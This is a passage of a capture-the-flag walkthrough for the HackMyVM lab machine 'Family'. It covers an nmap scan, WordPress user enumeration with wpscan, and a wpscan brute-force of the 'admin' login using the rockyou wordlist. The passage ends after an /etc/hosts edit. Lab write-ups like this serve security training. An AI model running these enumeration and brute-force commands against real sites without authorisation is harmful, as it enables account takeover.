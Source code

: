 ![image](https://user-images.githubusercontent.com/76552238/159262998-d4ce2773-8e9e-40c0-a2e2-5e14f4f873b1.png)

***Target: 10.0.0.39***  
***Difficulty: Medium***  
***Source: https://hackmyvm.eu/machines/machine.php?vm=Family***  

## ***NMAP*** 

    $ nmap -sS -A -T4 -p- 10.0.0.39

    PORT   STATE SERVICE VERSION                                                                              
    22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)                                       
    | ssh-hostkey:                                                                                            
    |   2048 0d:4e:fd:57:05:8f:d0:d6:1d:67:5d:6d:4e:b5:c9:fc (RSA)                                            
    |   256 d4:98:fb:a7:94:bd:0c:c6:a8:60:5b:bc:b9:c7:f4:51 (ECDSA)                                           
    |_  256 fa:34:3a:25:74:40:99:fc:4f:60:be:db:7e:7f:93:be (ED25519)                                         
    80/tcp open  http    Apache httpd 2.4.38                                                                  
    |_http-title: Index of /                                                                                  
    | http-ls: Volume /
    | SIZE  TIME              FILENAME
    | -     2020-02-06 07:33  wordpress/
    |_
    |_http-server-header: Apache/2.4.38 (Debian)

Firing up NMAP we see 2 open ports, 22 and 80. Even before we enumerate HTTP we can see that it is running wordpress based on the NMAP scan.

## ***HTTP***

    $ wpscan --url http://10.0.0.39/wordpress/ -e u,p,t

![image](https://user-images.githubusercontent.com/76552238/159282786-accc226a-4ede-4621-8721-9eae5906b78c.png)

The scan found the username 'admin', we can now brute force the login.

    $ wpscan -U 'admin' -P /usr/share/wordlists/rockyou.txt --url http://10.0.0.39/wordpress

And we found the password!

![image](https://user-images.githubusercontent.com/76552238/159283427-cf2e12b5-a22f-45ac-98c6-cff644bd2728.png)

Going to ***http://10.0.0.39/wordpress/wp-admin*** we are redirected to ***http://family/wordpress/wp-login.php?redirect_to=http%3A%2F%2F10.0.0.39%2Fwordpress%2Fwp-admin%2F&reauth=1***

This means the host name for the web server is 'family', let's add it to our /etc/hosts file.

    $ echo '10.0.0.39 family' >> /etc/hosts

